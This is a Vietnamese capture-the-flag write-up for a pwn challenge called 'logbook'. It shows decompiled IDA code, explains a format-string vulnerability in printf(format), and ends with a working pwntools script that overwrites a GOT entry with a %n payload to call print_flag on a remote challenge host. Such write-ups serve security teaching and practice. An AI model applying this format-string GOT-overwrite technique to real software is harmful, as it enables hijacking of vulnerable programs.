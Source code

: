 # logbook
## IDA
- Bài này khá nhiều hàm nhưng mình cần 1 số hàm sau đây là đủ

<details><summary>IDA</summary>

```c
unsigned __int64 print_flag()
{
  FILE *v1; // [rsp+8h] [rbp-78h]
  char v2[104]; // [rsp+10h] [rbp-70h] BYREF
  unsigned __int64 v3; // [rsp+78h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  v1 = fopen("./flag.txt", "r");
  if ( v1 )
  {
    __isoc99_fscanf(v1, "%99s", v2);
    printf("%s", v2);
  }
  else
  {
    puts("file does not exist");
  }
  return __readfsqword(0x28u) ^ v3;
}

unsigned __int64 logbook()
{
  void *ptr; // [rsp+8h] [rbp-98h]
  char s[8]; // [rsp+10h] [rbp-90h] BYREF
  __int64 v3; // [rsp+18h] [rbp-88h]
  char v4; // [rsp+20h] [rbp-80h]
  char format[104]; // [rsp+30h] [rbp-70h] BYREF
  unsigned __int64 v6; // [rsp+98h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  *(_QWORD *)s = 0LL;
  v3 = 0LL;
  v4 = 0;
  gen_pass(s, 16LL);
  puts(s);
  puts("| ---------------------------------------- |");
  puts("| >>> S.C.U.B.A.    Diving    logbook <<<  |");
  puts("| ---------------------------------------- |");
  puts("|            VERSION 3.0-SKPR              |");
  puts("| ________________________________________ |\n");
  ptr = malloc(0xCuLL);
  memset(ptr, 0, 0xCuLL);
  memset(format, 0, 0x64uLL);
  puts("Dive date:");
  __isoc99_scanf("%11s", ptr);
  puts("Dive location:");
  __isoc99_scanf("%99s", format);
  puts(" _______________________________________");
  puts("|                SUMMARY                |");
  puts("|_______________________________________|");
  printf("DATE: %s\n", (const char *)ptr);
  printf("LOCATION: ");
  printf(format);
  putchar(10);
  record_logs(s);
  free(ptr);
  return __readfsqword(0x28u) ^ v6;
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  ignore_me(argc, argv, envp);
  logbook();
  return 0;
}
```

</details>

## Phân tích

```c
  ptr = malloc(0xCuLL);
  memset(ptr, 0, 0xCuLL);
  memset(format, 0, 0x64uLL);
  puts("Dive date:");
  __isoc99_scanf("%11s", ptr);
  puts("Dive location:");
  __isoc99_scanf("%99s", format);
  puts(" _______________________________________");
  puts("|                SUMMARY                |");
  puts("|_______________________________________|");
  printf("DATE: %s\n", (const char *)ptr);
  printf("LOCATION: ");
  printf(format);           //fmt
  putchar(10);
  record_logs(s);
  free(ptr);
```

- Ở hàm logbook có 1 lỗi fmt, khi này ta có thể in ra, khi này mình mới nảy ra ý tưởng mình ow got của `putchar()` thành hàm `print_flag`.
- Khi này mình checksec ra thì không có PIE, nghĩa ow got là khả thi vì chỉ có 3 byte (0x404020)
- Tuy nhiên `scanf()` sẽ dừng đọc từ bàn phím khi gặp bull byte hoặc `/n = 0x20` và không đọc 2 byte đó
- Vậy mục tiêu của ta cần là hàm khác. Đọc `record_log` thì ta thấy có sài hàm `memset` và `strcmp`, do vậy 1 trong 2 hàm có vẻ oke. Ở đây mình chọn `strcmp`

# Khai thác

```python
#!/usr/bin/python3

from pwn import *

exe = ELF('binary', checksec=False)

context.binary = exe

def GDB():
        if not args.REMOTE:
                gdb.attach(p, gdbscript='''
                b*0x0000000000401961

                c
                ''')
                input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
        p = remote('rumble.host', 20776)
else:
        p = process(exe.path)

GDB()
sla(b"date:", b"123")
payload = f"%{exe.sym['print_flag']}c%14$n".encode()
payload = payload.ljust(16, b"a")
payload += p64(0x404028)
sla(b"location:", payload)
p.interactive()
```